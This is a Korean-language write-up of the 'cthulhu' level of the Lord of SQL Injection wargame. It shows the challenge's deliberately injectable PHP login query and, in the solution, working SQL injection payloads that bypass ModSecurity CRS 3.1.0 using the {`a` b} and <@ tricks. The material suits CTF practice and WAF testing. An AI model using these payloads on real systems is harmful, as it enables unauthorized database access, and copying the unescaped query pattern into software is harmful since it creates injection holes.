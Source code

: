 ```yaml
---
title : "LOS Lv.33 cthulhu"
categories : [Wargame, rubiya]
---
```


## cthulhu
```php
modsec.rubiya.kr server is running ModSecurity Core Rule Set v3.1.0 with paranoia level 1(default).
It is the latest version now.(2019.05)
Can you bypass the WAF?
query : select id from prob_cthulhu where id='' and pw=''

<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```

## Solution
```
필터링 되있는 것이 union, select, or 1 인 것 같음.

우선 대소문자 변형으로 해봄. -> uNiON, seLEct -> 실패

공백 우회 -> 실패

' union select 1 #을 url encode -> 실패
%27%20%75%6E%69%6F%6E%20%73%65%6C%65%63%74%20%31%23
```
CRS 3.1.0 sql injection bypass라 치면 나오는데 2가지가 있음. 

### 1. {`a` b}
<a href="https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1167" target="_blank">https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1167</a>

```
{`a` b}에서 

a는 if(), version() 같은 함수 이름들이 들어가고 (아무거나 쓰면 됨)

b는 sql문이 들어가게 됨.
```
```
mysql> select id from rubiya where id='' or {`if` 1};
mysql> select id from rubiya where id='' or {`version` 1};
mysql> select id from rubiya where id='' or {`replace` 1};
+-------+
| id    |
+-------+
| admin |
| guest |
| Admin |
+-------+
3 rows in set (0.00 sec)
```
```
?id=' or {`if` 1} %23
?id=' or {`version` 1} %23
?id=' or {`if` id=0x61646D696E} %23
?id=' or {`if` /*!50000id=0x61646D696E*/} %23 -> 안됨
```

### 2. <@
<a href="https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181" target="_blank">https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181</a>   

**```<@```으로 WAF 우회가 가능하다는 것.**
```
mysql> select ''<@1;
+-------+
| ''<@1 |
+-------+
|  NULL |
+-------+
1 row in set (0.00 sec)
```
```
mysql> select id from rubiya where id='-1'<@=1 or 1;
mysql> select id from rubiya where id=''<@=0 or 1;
mysql> select id from rubiya where id=''<@=2 or 1;
mysql> select id from rubiya where id=''<@ or 1;
mysql> select id from rubiya where id=''<@;
+-------+
| id    |
+-------+
| admin |
| guest |
| Admin |
+-------+
```
결국엔 ```id=NULL or 1```이 되는 듯함.  
그리고 이 방법으로 union select도 사용 가능!!!!!!
```
CRS 3.1.0 WAF bypass -> {`a` b}, <@

?id=-1'<@=1 OR {a 1}=1 OR '
?id='<@ or 1 %23
?id=' <@=2 or 1 %23
?id=' <@ union/**/select 1 %23
```
